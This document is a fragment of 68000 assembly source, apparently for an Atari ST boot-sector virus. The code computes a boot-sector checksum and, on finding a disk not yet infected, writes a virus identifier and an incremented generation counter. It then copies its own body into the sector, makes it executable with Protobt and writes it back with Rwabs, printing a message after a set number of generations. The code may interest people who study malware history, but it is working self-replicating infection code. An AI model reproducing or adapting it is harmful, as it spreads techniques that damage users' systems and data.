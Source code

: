 ```asm
        MOVEA.L   A3,A0                             ; copy buffer addr to A0
        CLR.W     D1                                ; d1 = 0
        MOVE.W    #$FF,D0                           ; for D0 = 255 to 0
.calc_checksum:
        ADD.W     (A0)+,D1                          ; calc word checksum
        DBF       D0,.calc_checksum
        CMP.W     #$1234,D1                         ; check if already executable
        BEQ.S     .do_nothing

        ; create bootsector buffer with virus
        MOVEA.L   A3,A0                             ; if not, copy buffer addr in A0
        MOVE.W    #BOOTSECTOR_START,(A0)+           ; add bootsector branch
        MOVE.L    #VIRUS_ID,(A0)+                   ; add virus identifier

        MOVE.W    GENERATION(PC),D0                 ; get relocated counter in d0
        ADDQ.W    #1,D0                             ; d0 = d0 + 1
        MOVE.W    D0,(A0)+                          ; copy incremented counter to buffer

        ADDA.W    #$16,A0                           ; advance buffer of 22 bytes
        LEA       SET_SYSTEM_VECTORS_BRANCH(PC),A1  ; A1 =  SET_SYSTEM_VECTORS_BRANCH (START - 2) with bra
        MOVE.W    #$F0,D0                           ; for d0 = 240 to 0
.copy:
        MOVE.W    (A1)+,(A0)+                       ; copy virus to buffer
        DBF       D0,.copy

        ; generate bootsector from buffer
        MOVE.W    #1,-(sp)                          ; execflag = 1 (executable)
        MOVE.W    #$FFFF,-(sp)                      ; type unchanged
        MOVE.L    #$FFFFFFFF,-(sp)                  ; serial
        PEA       (A3)                              ; buffer
        MOVE.W    #$12,-(sp)                        ; VOID Protobt( buf, serial, type, execflag ) => create bootsector
        TRAP      #$E
        ADDA.W    #$E,sp                            ; fix stack

        ; write back bootsector
        MOVE.W    4(sp),-(sp)                       ; dev = get bootdev from stack
        CLR.W     -(sp)                             ; recno = 0
        MOVE.W    #1,-(sp)                          ; count = 1
        PEA       (A3)                              ; buffer
        MOVE.W    #3,-(sp)                          ; mode = 3 Do not translate logical sectors into physical sectors (recno specifies physical instead of logical sectors)
        MOVE.W    #4,-(sp)                          ; LONG Rwabs( mode, buf, count, recno, dev)
        TRAP      #$D
        ADDA.W    #$E,sp                            ; fix stack

        MOVE.W    GENERATION(PC),D0                 ; get counter in D0
        CMP.W     #GENERATION_TRIGGER,D0            ; if d0 == GENERATION_TRIGGER  (in $f7f78)
        BLE       .do_nothing
        BSR.S     PRINT_MESSAGE                     ; print message
.do_nothing:
        MOVEM.L   (sp)+,A0-A3/D0-D2
        RTS
```
